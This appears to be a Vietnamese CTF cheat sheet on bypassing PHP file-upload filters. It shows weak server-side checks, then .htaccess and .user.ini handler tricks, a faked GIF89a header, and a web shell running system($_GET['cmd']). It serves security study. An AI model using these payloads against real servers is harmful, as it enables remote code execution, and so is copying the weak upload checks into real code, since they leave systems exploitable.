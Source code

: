 # File Upload Cheet 
Lụm nhặt, đút kết, xin xỏ từ mọi nguồn. Có thấy sai thì thôi không cần góp ý ::icons:


## How it work?
Theo kinh nghiệm chơi CTF nửa năm nay thì đa phần ở dạng cơ bản server sẽ check: 
- Extension: chỉ cho phép upload các file có đuôi trong white list
```php
if($imageFileType != "jpg" && $imageFileType != "png" 
&& $imageFileType != "jpeg" && $imageFileType != "gif" ) {
    echo "Sorry, only JPG, JPEG, PNG & GIF files are allowed.";
    $uploadOk = 0;
}
```
- Check mine:
```php
$check = getimagesize($_FILES["fileToUpload"]["tmp_name"]);
# getimagesize() đọc header của file trả về: Array[weight, h, mine]
if($check !== false) {
    echo "File is an image - " . $check["mime"] . ".";
    $uploadOk = 1;
} else {
    echo "File is not an image.";
    $uploadOk = 0;
}
```
- Check nội dung file: 
```php
$content = file_get_contents($uploaded_tmp);
if(preg_match("/\<\?/i", $content)){
    die("诶，别蒙我啊，这标志明显还是php啊");
}
```

## Bypass
Với từng trường hợp thì sẽ có những cách vượt rào riêng ~~hoặc không~~
- Extension
    - Không có cách cụ thể để bypass, theo kinh nghiệm cá nhân thì khi biết có fillter này ta nên ~~bỏ cuộc~~ fuzzing... hên thì được vài cái như `(phtml, php36,...)`
    - Nếu cho phép up `.htaccess` thì quá ngon. Note: `không check mine thì xài được`

### .htaccess
Đa phần các challenge chạy Apache nên dùng ngon, bị cái nếu thêm header để bypass mine thì file này tạch. ~~có cái hay hơn~~
```php
AddHandler application/x-httpd-php .png
```
### .usr.ini (phpruntime)
Cái này ngon nếu server cho phép `auto_prepend_file`
```php
; Kich hoat PHP tu dong them file vao truoc khi chay script khac
auto_prepend_file = shell.png

```
- Mine: Với getimagesize() thì fake cái header "GIF89a" 
- Content: Làm cách nào để viết mã php mà không cần dấu ? ~~<script>~~

### Script
Script chỉ là một cách để viết, còn nhiều mà làm biếng quá
```html
<script language='php'> 
	system($_GET['cmd']); 
</script>
```
~~khi nào siêng sẽ làm thêm về bypass khi up được shell (fillter system,ls,space,cat,...)~~




